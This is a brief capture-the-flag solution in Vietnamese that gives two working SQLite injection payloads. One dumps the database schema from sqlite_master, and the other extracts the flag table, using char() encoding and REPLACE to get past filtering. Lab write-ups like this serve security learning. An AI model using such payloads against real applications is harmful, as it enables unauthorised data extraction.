 # Solution

Payload để dump các statement:

`(select char(0x4d,0x53,0x47,0x2d) || sql as msg from sqlite_master)`



Payload để dump flag:

`(select REPLACE(char(0x4d,0x53,0x47,0x2d)||flag,char(0x4b),char(0x76)) msg from flag)`
